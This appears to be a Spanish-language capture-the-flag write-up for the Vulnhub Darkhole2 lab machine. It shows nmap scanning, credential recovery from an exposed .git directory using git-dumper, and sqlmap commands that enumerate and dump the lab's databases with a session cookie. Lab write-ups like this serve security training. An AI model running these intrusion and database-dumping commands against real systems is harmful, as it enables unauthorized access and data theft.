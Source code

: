 # Darkhole2-Vulnhub-Writeup
Writeup de la maquina Darkhole2 de Vulnhub

El sistema también se pondra a prueba en VirtualBox

## Escaneo de Red

En primer lugar, tenemos que obtener la dirección IP del objetivo

<netdiscover>

Iniciando Nmap para avanzar en este proceso. Realizamos un escaneo agresivo (-A) para la enumeración de puertos abiertos y descubrimos la siguiente información de puertos:

nmap -A 192.168.40.133

De acuerdo con la salida de Nmap, tenemos:
Un servidor SSH que se ejecuta en el puerto 22
Un servicio HTTP ejecutándose (servidor Apache) en el puerto 80, así como una página http-git

## Enumerar el servidor web

Debido a que el servidor Apache está escuchando en el puerto 80, podemos verificarlo inmediatamente en el navegador.

Decidimos echar un vistazo a la página de inicio de sesión

Decidimos echar un vistazo a la página http-git que descubrimos previamente durante el escaneo agresivo de Nmap.

Usamos git-dumper
Es una herramienta para adquirir un repositorio git de un sitio web para obtener una mejor comprensión del conjunto de datos.
Simplemente usamos la función de clonación de git.
Creamos un directorio para nuestro respaldo .git

cd darkhole2
git clone https://github.com/arthaud/git-dumper.git
ls
cd git-dumper 
mkdir backup

Después de descargar la herramienta, intentamos ejecutarla con python .
Después de eso, accedimos al directorio de respaldo y el archivo de registro tenía tres entradas. Usando git, abrimos una de las entradas para progresar en este laboratorio.
Finalmente, descubrimos las credenciales de la página de inicio de sesión descubiertas antes durante el abuso de http.

python3 git_dumper.py http://192.168.40.133/.git/ backup 
cd backup
ls
git log
git diff  a4d900a8d85e8938d3601f3cef113ee293028e10

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" --dbs –batch   //vemos las bases de datos

sqlmap -u "http://192.168.40.133/dashboard.php?id=1" --cookie="coiafrua9mc461a8436it7eiu4" -D darkhole_2 --dump-all --batch
date: "14/07/2023"
